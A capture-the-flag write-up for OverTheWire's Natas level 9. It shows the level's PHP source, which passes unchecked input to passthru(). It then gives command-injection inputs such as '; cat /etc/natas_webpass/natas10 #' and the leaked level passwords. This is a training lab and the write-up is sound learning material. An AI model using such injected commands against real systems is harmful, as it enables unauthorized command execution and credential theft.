 # Natas Level 8 → Level 9 Command Injection

## Previous Flag
<b>ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t</b>

## Goal
Username: natas9<br>
URL: http://natas9.natas.labs.overthewire.org<br>

Find words containing: <br>
Output:<br>
View sourcecode

## What I learned
```
passthru() has no checking input
Forms need to be check before press submit or very vulnerable
SQL injection   1=1, ' OR 1=1 -- are different than Command Injection
```

## Solution
```
Click View source code
http://natas9.natas.labs.overthewire.org/index-source.html

<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>

Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt"); 👀
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>

http://natas9.natas.labs.overthewire.org/dictionary.txt ⌨️            # Nothing useful

Find words containing: ; ls -la; ⌨️
Output:
total 476
drwxr-x---  2 natas9 natas9   4096 Jul 28 18:49 .
drwxr-xr-x 38 root   root     4096 Jul 28 18:49 ..
-rw-r-----  1 natas9 natas9    117 Jul 28 18:49 .htaccess
-rw-r-----  1 natas9 natas9     45 Jul 28 18:49 .htpasswd
-rw-r-----  1 natas9 natas9 460878 Jul 28 18:49 dictionary.txt
-rw-r--r--  1 root   root     2924 Jul 28 18:49 index-source.html
-rw-r-----  1 natas9 natas9   1185 Jul 28 18:49 index.php
Find words containing: ; cat /etc/natas_webpass/natas10 #
Output:
t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu 🔐

Find words containing: ; cat /etc/natas_webpass/natas10; ⌨️
Output:
t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu 🔐
```

## Flag
<b>t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu</b>

## Continue
[Continue](./Natas0910.md)